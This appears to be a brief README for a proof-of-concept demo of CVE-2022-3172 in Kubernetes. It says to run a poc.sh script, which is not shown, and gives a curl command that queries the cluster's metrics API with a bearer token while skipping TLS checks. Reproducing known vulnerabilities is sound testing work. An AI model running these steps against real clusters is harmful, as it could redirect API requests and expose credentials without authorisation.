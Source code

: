 # CVE-2022-3172 demo
## Run poc.sh create resources
```
chmod +x poc.sh
./poc.sh
```
## Use Curl
```
curl https://kubernetes.default.svc/apis/metrics.k8s.io/v2beta1/ -k -H "Authorization: Bearer {token}"
```